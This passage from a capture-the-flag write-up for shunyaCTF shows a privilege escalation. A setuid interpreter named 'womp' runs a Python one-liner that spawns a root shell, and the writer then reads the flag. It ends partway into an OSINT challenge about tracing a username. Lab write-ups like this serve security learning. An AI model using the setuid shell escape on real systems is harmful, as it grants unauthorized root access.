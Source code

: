 ```bash
aalu@aalu-center:~$ womp -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
uid=1000(aalu) gid=1000(aalu) euid=0(root) groups=1000(aalu),4(adm),24(cdrom),30(dip),46(plugdev),117(lxd)
# cd /root	
# ls
<Bunch of Random Fake Flags>  snap
flag145.txt  flag190.txt  flag235.txt  flag281.txt  flag326.txt  flag371.txt  flag56.txt
```

Then extract the flag.

```bash
# ls -a|xargs cat * 2>/dev/null|grep shunya|grep -v fakeflag
shunyaCTF{1_10v3_h0n3y}
```

**Flag**: `shunyaCTF{1_10v3_h0n3y}`

## OSINT

### Dr. Homofomo

**Description:** Hey Detective, Dr. HOMOFOMO, a cryptologist, has gone underground after discovering a illegal encryption technique. Rumour has it, he’s left a digital trail that leads to his hidden online journal, which contains the secret formula. I've heard you’re good with finding things online. Your mission is to find the journal and uncover the secret.

**Given**: `homesweethome.pdf`

**Author**: Vaibhav Gawai [`FEL1X`]

After opening the PDF, you could see hidden text written at the top. I think about going into Google Lens, but that yielded nothing. `exiftool` gave two keywords - `DAGJf30TiCQ BAE8csRKboE.`

Which I had no clue whatsoever. Well if you look really closely.

![14](/assets/posts/ShunyaCTF/14.png)

We get a `v41bhx` , seems like a username! Let’s run it on 

[](https://whatsmyname.app/)
